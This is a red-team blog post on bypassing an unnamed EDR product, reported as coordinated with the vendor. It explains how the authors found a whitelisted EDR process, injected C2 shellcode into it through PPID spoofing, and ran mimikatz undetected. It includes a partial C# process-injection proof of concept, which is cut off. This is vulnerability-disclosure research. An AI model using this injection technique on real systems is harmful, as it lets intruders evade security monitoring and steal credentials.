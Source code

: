 ```yaml
---
title: Attacking an EDR - Part 1
url: https://riccardoancarani.github.io/2023-08-03-attacking-an-edr-part-1/
source: Red Team Adventures
date: 2023-08-04
fetch_date: 2025-10-04T12:01:14.911819
---
```


# Attacking an EDR - Part 1

Toggle navigation

[Riccardo Ancarani - Red Team Adventures](https://riccardoancarani.github.io/)

* [About Me](/aboutme)
* [Medium](https://medium.com/%40riccardo.ancarani94)

[![](/img/hack.ico)](https://riccardoancarani.github.io/)

# Attacking an EDR - Part 1

## For some fun and a fair bit of profit

Posted on August 3, 2023

## Introduction

DISCLAMER: This post was done in collaboration with Devid Lana. You can find his blog here: <https://her0ness.github.io>

This post is the first of what - we hope - will be a long series of articles detailing some common flaws that can be found on modern EDR products. By no means this will be a complete reference, but will hopefully provide some practical tools to analyze these gargantuesque products and attempt to understand their functionalities from a black box perspective.

These attacks were actually performed against one of the top tier product in the EDR space, we were fortunate enough that the vendor was keen on collaborating and providing us with a test-bed where we could perform our experiments in a safe and controlled manner. We believe that without this collaboration it wouldn’t have been possible to achieve the results we did, hopefully in the future EDRs will be more open to get tested by researchers. It goes without saying that the specific vendor we worked with was very keen on doing this collaboration and fixed all the issues we reported.

Since our aim is not to name and shame and possibly avoid jail time, we will call this product STRANGETRINITY.

The methodology we followed was partially based on pre-existing research, and it’s impossible not to mention the MDSec’s research on Cylance. To summarise, we gathered previous research and identified the various places within the operating system where EDRs had some presence, both from a configuration and detection perspective:

* Injected DLLs
* Registry Keys
* Network Communication
* Install/Uninstall process
* File quarantine

At the time of this research, we did not perform any kernel-based analysis as we did not have those skills yet. Note that this first part was technically performed in 2020, so bear in mind that in the past three years the evolution of both offensive and defensive technologies had an extremely fast advancement. it is therefore not guaranteed that this technique will work with actual (2023) modern EDRs.

## The Vulnerability

This piece of research started from a simple hypothesis:

If a process does not load the EDR hooking DLL in memory but other processes do, it must somehow be whitelisted.
For those who are not familiar with the architecture of an EDR, at least in the past, most of them used to inject a DLL in most of the userland processes. This was done, amongst other things, to perform userland hooking. Hooking is the practice of diverting the flow of a normal API call to modify its functionality and was very popular for game cheat developers.
EDRs leveraged API hooking to inspect the arguments of various APIs that could be abused by malware to perform things such as process injection. Our idea was simple, if a process does not have the DLL, it’s likely that it will not get inspected in the same way as a process who does.

How to verify this hypothesis tho? We begun by searching all the processes within a VM with the product installed that did not load the DLL, a command similar to the following was used:

```
tasklist /m /FO CSV | findstr /i /v STRANGETRINITY.DLL
```

Specifically the “tasklist /m” enumerated all the processes and the loaded modules, the “/FO CSV” printed the result in CSV format that were subsequently filtered by the “findstr” command. Interestingly, we got a few hits!

```
"smss.exe","324","N/A"
"csrss.exe","452","N/A"
"wininit.exe","524","N/A"
"csrss.exe","532","N/A"
"services.exe","632","N/A"
"lsass.exe","640","N/A"
"STRANGETRINITY.exe","6748", [...]
"MsMpEng.exe","2892","N/A"
"svchost.exe","688","N/A"
"SecurityHealthService.exe","1796","N/A"
```

Most of the processes in the list had a protection level (PPL) that effectively prevented us from interacting with them in meaningful ways without relying on exploits. However, the STRANGETRINITY.exe process did not have process protection, and was related to the EDR solution itself. We then executed another tasklist command to confirm that indeed the DLL was not being loaded:

```
tasklist /m /fi "PID eq 6748"

Image Name                 	PID Modules
========================= ======== ============================================
STRANGETRINITY.exe	6748 ntdll.dll,
KERNEL32.DLL, KERNELBASE.dll,
ADVAPI32.dll,
msvcrt.dll, sechost.dll, RPCRT4.dll,
USER32.dll, win32u.dll, GDI32.dll,
gdi32full.dll, msvcp_win.dll, ucrtbase.dll,
[...]
```

Interestingly, this process was also running as the current low privileged user account, making it a good candidate for injection.

After a few trials and errors, the solution that we found to be working the best was to utilise the PPID spoofing technique to create a new process, as if it was being spawned by STRANGETRINITY.EXE. As the injection target, we decided to spawn another instance of STRANGETRINITY.EXE.

As far as the injection technique that was used, it was a simple CreateRemoteThread injection, in conjunction with a Covenant shellcode.

After the PoC was crafted and executed, we immediately obtained an implant on the test VM. This was already surprising on its own, as we were using a known C2 framework without obfuscation and an extremely basic injection technique. However, the most interesting fact was that it was possible to execute all sorts of post-exploitation TTPs from that process and nothing would get detected. To exemplify, the mimikatz credential dumping DLL was injected in memory without causing any detection.

Note that this specific behaviour of ignoring post-ex TTPs was happening only when injected with this exact technique against that specific process. Even if you managed to inject a beacon without causing detection in another unrelated process and tried to run things like mimikatz, your session would get killed.

This eventually confirmed our initial hypothesis that the process was indeed whitelisted. Conversations with the vendor and their technical team were extremely useful to understand that this was unintended behaviour and not one of the various injection techniques that simply would fly under the radar regardless.

## Proof Of Concept Code

The following snippet of code is intended as a Proof Of Concept that was used to confirm the issue

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace GruntInjection
{
    class Program
    {
        public const uint CreateSuspended = 0x00000004;
        public const uint DetachedProcess = 0x00000008;
        public const uint CreateNoWindow = 0x08000000;
        public const uint ExtendedStartupInfoPresent = 0x00080000;
        public const int ProcThreadAttributeParentProcess = 0x00020000;

        // Hardcoded Grunt Stager
        public static byte[] gruntStager = Convert.FromBase64String("[[shellcode here]]");

        static void Main(string[] args)
        {
            if (args.Length < 2)
            {
                Console.Error.WriteLine("Invalid number of args");
                return;
            }

            // Create new process
            PROCESS_INFORMATION pInfo = CreateTargetProcess(args[0], int.Parse(args[1]));

            // Allocate memory
            IntPtr allocatedRegion = VirtualAllocEx(pInfo.hProcess, IntPtr.Zero, (uint)gruntStager.Length, AllocationType.Commit | AllocationType.Reserve, MemoryProtection.ReadWrite);

            // Copy Grunt PIC to new process
            UIntPtr bytesWritten;
            WriteProcessMemory(pInfo.hProcess, allocatedRegion, gruntStager, (uint)gruntStager.Length, out bytesWritten);

            // Change memory region to RX
            MemoryProtection oldProtect;
            VirtualProtectEx(pInfo.hProcess, allocatedRegion, (uint)gruntStage...
